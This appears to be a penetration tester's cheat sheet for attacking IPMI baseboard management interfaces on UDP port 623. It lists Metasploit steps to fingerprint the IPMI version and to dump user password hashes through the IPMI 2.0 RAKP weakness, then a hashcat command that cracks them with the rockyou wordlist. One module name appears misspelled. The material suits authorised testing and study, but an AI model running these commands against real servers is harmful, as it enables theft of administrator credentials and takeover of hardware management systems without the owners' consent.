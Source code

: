 # Intelligent Platform Management Interface (IPMI)

### Resource: https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

### UDP port: 623 (asf-rmcp)

### Identify version using Metasploit

#### 1) 

    msfconsole

#### 2)  

    use auxiliary/scanner/ipmi/impi_version

#### 3) 

    set RHOSTS HOST

#### 4) 

    run

### Then depending on the IPMI version, we can abuse the vulnerabilities below:

### Dump password hashes for users with Metasploit (IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval)

#### 1) 

    msfconsole

#### 2) 

    use auxiliary/scanner/ipmi/ipmi_dumphashes

#### 3) 

    set RHOSTS HOST

#### 4) 

    run

#### 5) 

    hashcat -m 7300 -a 0 hash /usr/share/wordlists/rockyou.txt

